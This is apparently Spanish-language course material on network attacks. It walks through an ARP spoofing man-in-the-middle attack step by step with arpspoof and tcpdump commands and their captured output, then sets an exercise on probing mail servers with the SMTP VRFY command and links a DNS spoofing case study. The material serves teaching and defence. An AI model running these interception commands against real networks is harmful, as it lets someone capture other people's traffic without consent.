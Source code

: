 ```md
Ejecutar desde la máquina atacante la orden arpspoof de la puerta de enlace a la víctima: 
$ arpspoof -i eth0 -t 192.168.0.1 192.168.0.2
0:13:a9:84:b6:e9 10:d:7f:a2:75:93 0806 42: arp reply 192.168.0.2 is-at 0:13:a9:84:b6:e9
0:13:a9:84:b6:e9 10:d:7f:a2:75:93 0806 42: arp reply 192.168.0.2 is-at 0:13:a9:84:b6:e9
0:13:a9:84:b6:e9 10:d:7f:a2:75:93 0806 42: arp reply 192.168.0.2 is-at 0:13:a9:84:b6:e9

Seguidamente, hacemos lo mismo (en paralelo) de la víctima a la puerta de enlace:
$ arpspoof -i eth0 -t 192.168.0.2 192.168.0.1
0:13:a9:84:b6:e9 7c:6d:62:72:44:38 0806 42: arp reply 192.168.0.1 is-at 0:13:a9:84:b6:e9
0:13:a9:84:b6:e9 7c:6d:62:72:44:38 0806 42: arp reply 192.168.0.1 is-at 0:13:a9:84:b6:e9
0:13:a9:84:b6:e9 7c:6d:62:72:44:38 0806 42: arp reply 192.168.0.1 is-at 0:13:a9:84:b6:e9

Con esto ya podemos ejecutar TCPdump en el equipo atacante para capturar todo el tráfico del equipo víctima:
$ tcpdump -i eth0 host 192.168.0.2 -s 0 -w archivo.ataque
$ tcpdump -i eth0 'host 192.168.0.2' -s 0 -r archivo.ataque
reading from file archivo.ataque, link-type EN10MB (Ethernet)
17:56:27.045888 ARP, Reply 192.168.0.2 is-at 00:13:a9:84:b6:e9, length 28
17:56:27.335195 ARP, Reply 192.168.0.1 is-at 00:13:a9:84:b6:e9, length 28
17:56:29.046128 ARP, Reply 192.168.0.2 is-at 00:13:a9:84:b6:e9, length 28
17:56:29.335437 ARP, Reply 192.168.0.1 is-at 00:13:a9:84:b6:e9, length 28
17:56:29.764983 IP 192.168.0.2.60271 > 62.42.230.24.53: 60931+ A? notify5.dropbox.com. (37)
17:56:31.046357 ARP, Reply 192.168.0.2 is-at 00:13:a9:84:b6:e9, length 28

Observa cómo las respuestas ARP van todas a la MAC del atacante.
Existen diferentes herramientas para detectar este tipo de ataques, siendo el más conocido el ARPwatch o Caín en entornos gráficos.
```

#### Ponte a prueba 4 -- Comando VRFY de SMTP

```md
**Comando VRFY de SMTP**
Una de las órdenes SMTP que se pueden utilizar es VRFY, que consulta a un determinado servidor de correo para saber si una dirección de correo existe o no. Esta comprobación la suelen hacer los atacantes antes de lanzar un ataque a un servidor. Se puede deshabilitar y así el servidor no contestará a la petición de comprobación.
Se pide deshabilitar (en teoría) el uso del comando VRFY.
Averigua si una determinada cuenta de correo electrónico existe en un servidor de correo. Se puede utilizar cualquier cuenta propiedad de los estudiantes.

Se trata de un ejercicio en el que interviene el servicio telnet (cliente) y habrá que conocer el nombre del servidor de correo.
La primera parte del ejercicio no requiere la instalación de un servidor de correo.
```

#### Estudio de caso -- [DNS Spoofing con Ettercap](https://drive.google.com/file/d/1bW6oulxsbztLd31pi2rEQtpkphLtpfU6/view)

...
